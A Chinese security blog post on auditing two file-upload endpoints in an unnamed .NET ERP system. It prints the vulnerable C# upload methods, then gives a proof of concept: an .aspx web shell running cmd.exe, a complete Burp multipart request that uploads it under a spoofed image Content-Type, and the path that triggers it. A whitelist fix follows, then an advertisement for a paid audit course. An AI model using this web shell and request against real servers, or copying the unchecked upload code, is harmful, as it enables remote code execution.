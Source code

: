 #  .NET 通过代码审计发现 ERP 系统中两个任意文件上传漏洞   
原创 专攻.NET安全的  dotNet安全矩阵   2025-01-22 00:45  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
文件上传功能是 Web 应用中非常重要且敏感的部分，如果缺乏完善的安全控制，极易成为攻击者利用的突破口。本文通过对 .NET 某 ERP 系统的两个文件上传功能进行代码审计与漏洞分析，揭示了潜在的任意文件上传风险及其危害。  
  
**01. 漏洞代码审计**  
  
  
  
在渗透测试中，  
通过分析提供的代码，可以看到系统中存在两个文件上传接口：Upload***File 和 Upload***PlanFile。这两个方法分别负责上传文件到 \In***Files\ 和 \In***PlanFile\ 目录下。  
## 1.1 Upload***File 方法  
  
该方法在代码中，文件扩展名仅通过以下代码获取，并未对其进行任何安全校验，具体代码如下所示。  
  
```
public UploadResult Upload***File() {    UploadResult uploadResult = new UploadResult();    try    {        HttpPostedFile httpPostedFile = HttpContext.Current.Request.Files[0];        string str = HostingEnvironment.MapPath("~/");        string text = str + "\\In***Files\\";         if (!Directory.Exists(text))        {            Directory.CreateDirectory(text);        }        uploadResult.filename = httpPostedFile.FileName;         uploadResult.guid = Guid.NewGuid().ToString();        uploadResult.extension = Path.GetExtension(httpPostedFile.FileName);         uploadResult.title = Path.GetFileNameWithoutExtension(httpPostedFile.FileName);        uploadResult.filepath = "\\InFiles\\" + uploadResult.guid + uploadResult.extension;        httpPostedFile.SaveAs(text + uploadResult.guid + uploadResult.extension);    }    return uploadResult;}
```  
  
  
通过 Path.GetExtension 获得文件扩展名，并没有做任何过滤，  
攻击者可以上传如 .aspx、.exe 等危险扩展名的文件，直接威胁到服务器的安全。  
## 1.2 Upload***PlanFile 方法  
  
该方法在代码中，  
文件类型的安全性完全依赖于客户端，而服务端没有使用 Content-Type 或文件内容头信息进行校验，具体代码如下所示。  
  
```
public UploadResult Upload***PlanFile(){    UploadResult uploadResult = new UploadResult();    try    {        HttpPostedFile httpPostedFile = HttpContext.Current.Request.Files[0];        string str = HostingEnvironment.MapPath("~/");        string text = str + "\\In***PlanFile\\";         if (!Directory.Exists(text))        {            Directory.CreateDirectory(text);        }        uploadResult.filename = httpPostedFile.FileName;         uploadResult.guid = Guid.NewGuid().ToString();        uploadResult.extension = Path.GetExtension(httpPostedFile.FileName);         uploadResult.title = Path.GetFileNameWithoutExtension(httpPostedFile.FileName);        uploadResult.filepath = "\\In***PlanFile\\" + uploadResult.guid + uploadResult.extension;        httpPostedFile.SaveAs(text + uploadResult.guid + uploadResult.extension);    }    return uploadResult;}
```  
  
  
  
通过 HttpContext.Current.Request.Files[  
0] 获取文件类型，攻击者可以伪  
造合法的 Content-Type，比如 image/jpeg。  
  
  
**02. 漏洞实战复现**  
  
  
  
在渗透测试中，  
攻击者可以上传如下 .aspx 文件，上传成功后，攻击者通过访问文件路径触发脚本，执行恶意命令。  
  
```
<%@ Page Language="C#" %><% System.Diagnostics.Process.Start("cmd.exe", "/c whoami > C:\\whoami.txt"); %>
```  
  
  
随后，利用 Burp 发送  
 HTTP POST 文件请求，服务端返回文件上传结果，包括文件路径、文件名、扩展名等信息，具体如下所示。  
  
```
POST /api/cgI**/Upload***File HTTP/1.1Host: Content-Type: multipart/form-data; boundary=-----------------1111Content-Length: 178-------------------1111Content-Disposition: form-data; name="filedata"; filename="1.aspx"Content-Type: image/png<%@ Page Language="C#" %><% System.Diagnostics.Process.Start("cmd.exe", "/c whoami > C:\\whoami.txt"); %>-------------------1111--
```  
  
  
上传成功后，访问 http://target.com/In***Files/{guid}.aspx 即可触发恶意脚本，如下图所示。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibPpzhkI8kmRS0Ev8wrkIMKfA1ZyQVJJicVZXLUcPBAJELtoLq5bI9N8mJUXx1o90vPNwlTXVpdicfg/640?wx_fmt=png&from=appmsg "")  
  
## 修复建议  
  
为解决上述问题，建议采取引入白名单机制，仅允许上传特定类型的文件，参考代码如下。  
  
```
string[] allowedExtensions = { ".jpg", ".jpeg", ".png", ".pdf" };if (!allowedExtensions.Contains(uploadResult.extension.ToLower())){    throw new Exception("文件类型不受支持");}
```  
  
  
将上传文件存储到非Web目录，隔离上传路径，只通过专用API访问等。  
## 小结  
  
综上  
，文件上传功能的安全性至关重要，稍有不慎就可能导致严重的安全事故。通过上述代码审计和漏洞分析，我们发现了ERP系统中的风险点并提出了有效的修复建议。  
  
  
**03. NET代码审计学习**  
  
  
  
微软的.NET技术广泛应用于全球企业级产品，包括其知名的  
**Exchange**  
、  
**SharePoint**  
等，国内如  
**某友的Cloud**  
、  
**某通的T系列**  
、  
**某蝶的云产品**  
等也广泛采用。各行业核心业务均依赖于此技术。这些基于.NET的系统频繁遭攻击，问题涵盖任意文件上传、反序列化漏洞、SQL注入、文件下载漏洞、命令执行漏洞等。  
  
截至目前，星球已推出近  
**100节内容**  
 (还在持续增加)，包括  
**70个视频+30份PDF文档**  
。我们已将内容细致划分为15个分类，并随新漏洞类型的出现持续扩展。在这里您将学到包括但不限于以下漏洞类型。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8fTUcmnHC8g2WjE6SZJIjwdR00lAaNpUuDDlI6Gk1uEEPZxUMlb4FkDvOBLYq92InlzpwmzWeibjQ/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
详细的内容与结构，请参考下方的星球大纲版块，  
包括但不限于OWASP十大漏洞类型，涉及SQL注入漏洞、文件上传下载漏洞、任意文件操作漏洞、XML外部实体注入漏洞、跨站脚本攻击漏洞、反序列化漏洞、命令执行漏洞、未授权和越权漏洞、第三方组件漏洞等等。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8fTUcmnHC8g2WjE6SZJIjwMahhN19jbtUiax5UWVU0R3n4eick9XQEHyf3lhjE3wvCic9ZFD3h9tWsQ/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 专属福利  
  
  
1. 学习模式: 代码审计知识星球  
**在线录播视频**  
 +后续漏洞挖掘直播、内部专属交流社区答疑解惑；  
  
2. 优享福利：加入.NET代码审计星球后  
**赠送永久**  
dot.Net安全基础入门星球。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibkE3ACnPUtfbn99XZmI6ANI9DCxS2KHkqiaXBk22ZevuRm08onmEibIUvdEy5zJGCoHg4HAsrgQ22w/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
欢迎对.NET代码审计关注和关心的同学加入我们 [dot.Net安全代码审计] ，目前已有近 100+ 位朋友抢先预定。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YibEfvTKP231YekyMbc9jeicFuh0aAYDSicAg36pkFaC2P1KW0L5NV1HOssmysrPnrP1fzr2rFOmy8lA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
星球门票后期价格随着内容和质量的不断沉淀会适当提高，  
**越早加入越划算！**  
 现在加入星球可享受星球早鸟价，并可  
**领取100元优惠券**  
，期待在这里能遇到有情有义的小伙伴，大家聚在一起做一件有意义的事，  
**可扫描下方老师二维码了解更多详情。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibkE3ACnPUtfbn99XZmI6ANBJ4t8XC4ibbWjhzj0447zAJcWgwV9wcDhcibNiax3P7iagSYwn31GEkTBw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  

